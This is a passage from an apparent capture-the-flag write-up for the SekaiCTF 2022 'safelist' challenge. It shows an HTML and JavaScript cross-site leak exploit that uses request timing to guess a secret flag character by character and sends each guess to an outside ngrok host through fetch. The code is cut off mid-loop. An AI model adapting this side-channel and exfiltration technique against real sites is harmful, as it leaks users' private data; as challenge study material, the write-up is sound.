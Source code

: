 ### Exploit 2

Same tactic but different code from [https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/](https://blog.huli.tw/2022/10/05/en/sekaictf2022-safelist-xsleak/)

```html
<!DOCTYPE html>
<html>
  <!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
  <body>
    <button onclick="run()">start</button>
    <form
      id="f"
      action="http://localhost:1234/create"
      method="POST"
      target="_blank">
      <input id="inp" name="text" value="" />
    </form>

    <form
      id="f2"
      action="http://localhost:1234/remove"
      method="POST"
      target="_blank">
      <input id="inp2" name="index" value="" />
    </form>
    <script>
      let flag = "SEKAI{"
      const TARGET = "https://safelist.ctf.sekai.team"
      f.action = TARGET + "/create"
      f2.action = TARGET + "/remove"

      const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
      const send = (data) => fetch("http://server.ngrok.io?d=" + data)
      const charset = "abcdefghijklmnopqrstuvwxyz".split("")

      // start exploit
      let count = 0
      setTimeout(async () => {
        let L = 0
        let R = charset.length - 1
        while (R - L > 3) {
          let M = Math.floor((L + R) / 2)
          let c = charset[M]
          send("try_" + flag + c)
          const found = await testChar(flag + c)
          if (found) {
            L = M
          } else {
            R = M - 1
          }
        }

        // fallback to linear since I am not familiar with binary search lol
        for (let i = R; i >= L; i--) {
          let c = charset[i]
          send("try_" + flag + c)
          const found = await testChar(flag + c)
```